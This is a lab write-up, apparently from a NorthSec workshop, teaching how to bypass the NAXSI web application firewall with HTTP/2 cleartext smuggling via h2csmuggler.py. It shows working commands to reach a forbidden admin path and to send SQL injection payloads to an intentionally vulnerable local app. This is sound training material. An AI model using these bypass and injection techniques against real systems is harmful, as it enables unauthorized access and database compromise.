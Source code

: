 # Switching Protocol Lab

## Launching the instance

You need to launch the application using the following commands:

```
$ cd 04-http2-cleartext
$ docker-compose up
```


Open [https://localhost:8443](https://localhost:8443) in a browser to confirm that everything is running.


[Live instance (only for NorthSec)](https://nsec2022.xss.lol:8443/){ .md-button .md-button--primary target=_blank}


## Context

We have an application that will look and behave just like the one from the lab3. The application is also vulnerable to SQL injection.

However, this time the WAF is even more aggressive. NAXSI is the open-source firewall used. No training was made (usually done to reduce false positive). All parameter are prohibited from special characters!

Another important difference is that the backend application was reimplemented in Go and HTTP2 support was enable.

```go
import(
	"golang.org/x/net/http2"
	"golang.org/x/net/http2/h2c"
[...]
```

![lab 4 diagram](images/lab4_diagram.png)

## Bypassing WAF

Visit `https://localhost:8443/movie?id=1`. If you attempt to tamper with the parameter `id`, you will see that it is filtered by a Web Application Firewall. In this case, NAXSI is configured in front of the web application. Exploiting some vulnerabilities can be much harder *(see impossible)* when a strong firewall is in place. By default, NAXSI is configured to block all quotes `'` characters. However, with the HTTP 2 Cleartext passthrough we just learned, it is possible to send requests that would not be seen by the firewall.

### Validation

First, we need to validate that HTTP2 cleartext is supported by the backend. If the backend application does not support it, this technique will not work.

```
python h2csmuggler.py -x https://127.0.0.1:8443 -t
[INFO] h2c stream established successfully.
[INFO] Success! https://127.0.0.1:8002 can be used for tunneling
```

### Accessing Forbidden Path

```
> python .\h2csmuggler.py -x https://127.0.0.1:8443/ "https://127.0.0.1:8443/admin"
```

### SQLi Exploitation

When testing for SQL injection, a tester will be blocked right away by the Web Application Firewall in place.

`http://127.0.0.1/movie?id=1'` (see single quote at the end)


![NAXSI](images/naxsi.png)


We can use the HTTP2 technique to establish an HTTP tunnel with the application directly that will not be interpreted by most proxies.

```
> python h2csmuggler.py -x https://127.0.0.1:8443 "http://127.0.0.1/movie?id=1'"
[INFO] h2c stream established successfully.
:status: 200
[...]
[INFO] Requesting - /movie?id=1'
[...]
```


```
python h2csmuggler.py -x https://127.0.0.1:8443 "https://127.0.0.1/?genre=action' or ''='"
[INFO] h2c stream established successfully.
:status: 200
[...]
[INFO] Requesting - /?genre=action' or ''='
[...]
```

Can you extract the version of MySQL used by the backend application?
